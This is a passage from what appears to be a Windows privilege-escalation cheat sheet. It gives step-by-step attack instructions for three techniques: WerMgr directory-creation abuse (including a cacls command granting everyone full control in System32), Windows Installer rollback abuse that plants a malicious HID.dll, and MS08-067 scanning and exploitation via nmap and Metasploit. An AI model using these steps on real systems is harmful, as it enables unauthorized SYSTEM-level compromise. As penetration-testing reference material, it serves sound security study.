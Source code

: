 #### WerMgr

> Exploit Privileged Directory Creation Bugs with Windows Error Reporting

1. Clone https://github.com/binderlabs/DirCreate2System
2. Create directory `C:\Windows\System32\wermgr.exe.local\`
3. Grant access to it: `cacls C:\Windows\System32\wermgr.exe.local /e /g everyone:f`
4. Place `spawn.dll` file and `dircreate2system.exe` in a same directory and run `.\dircreate2system.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**

### EoP - Privileged File Delete

During an MSI installation, the Windows Installer service maintains a record of every changes in case it needs to be rolled back, to do that it will create:

* a folder at `C:\Config.Msi` containing
  * a rollback script (`.rbs`)
  * a rollback file (`.rbf`)

To convert a privileged file delete to a local privilege escalation, you need to abuse the Windows Installer service.

* delete the protected `C:\Config.Msi` folder immediately after it's created by the Windows Installer
* recreate the `C:\Config.Msi` folder with weak DACL permissions since ordinary users are allowed to create folders at the root of `C:\`.
* drop malicious `.rbs` and `.rbf` files into it to be executed by the MSI rollback
* then upon rollback, Windows Installer will make arbitrary changes to the system

The easiest way to trigger this chain is using [thezdi/FilesystemEoPs/FolderOrFileDeleteToSystem](https://github.com/thezdi/PoC/tree/master/FilesystemEoPs/FolderOrFileDeleteToSystem). The exploit contains a .msi file with 2 actions, the first one produces a delay and the second throws an error to make it rollback. This rollback will "restore" a malicious HID.dll in `C:\Program Files\Common Files\microsoft shared\ink\HID.dll`.

Then switch to the secure desktop using `[CTRL]+[ALT]+[DELETE]` and open the On-Screen Keyboard (`osk.exe`). The `osk.exe` process first looks for the `C:\Program Files\Common Files\microsoft shared\ink\HID.dll` library instead of `C:\Windows\System32\HID.dll`

### EoP - Common Vulnerabilities and Exposure

#### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>
```

Metasploit modules to exploit `MS08-067 NetAPI`.

```powershell
exploit/windows/smb/ms08_067_netapi
```

If you can't use Metasploit and only want a reverse shell.
